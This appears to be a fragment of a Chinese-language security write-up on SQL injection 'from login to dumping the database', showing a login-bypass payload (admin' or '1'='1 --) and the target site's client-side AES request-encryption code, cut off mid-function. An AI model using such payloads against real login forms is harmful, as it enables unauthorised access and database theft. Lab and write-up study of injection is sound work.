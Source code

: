 





### SQL 注入（从登陆到 Dump 数据库

```
admin' or '1'='1 --
admin' or '1'='1 --
```



加密密码：

```js

        // 加密请求数据函数
        function encryptRequest(data) {
            const generateRandomHex = (length) => {
                const bytes = new Uint8Array(length);
                crypto.getRandomValues(bytes);
                return Array.from(bytes).map(b => b.toString(16).padStart(2, '0')).join('');
            };

            const key = generateRandomHex(16);
            const iv = generateRandomHex(16);

            const message = CryptoJS.AES.encrypt(
                JSON.stringify(data),
                CryptoJS.enc.Hex.parse(key),
                {
                    iv: CryptoJS.enc.Hex.parse(iv),
                    mode: CryptoJS.mode.CBC,
                    padding: CryptoJS.pad.Pkcs7
                }
            ).toString();

            return {
                key: key,
                iv: iv,
                message: message
            };
        }

        // 解密响应数据函数
        function decryptResponse(data) {
            const decrypted = CryptoJS.AES.decrypt(
                data.message,
                CryptoJS.enc.Hex.parse(data.key),
                {
                    iv: CryptoJS.enc.Hex.parse(data.iv),
                    mode: CryptoJS.mode.CBC,
                    padding: CryptoJS.pad.Pkcs7
                }
            );
            
            return JSON.parse(decrypted.toString(CryptoJS.enc.Utf8));
        }


        // 加载用户数据
        function loadUsers(searchTerm = '') {
            const requestData = {
                search: searchTerm
            };
```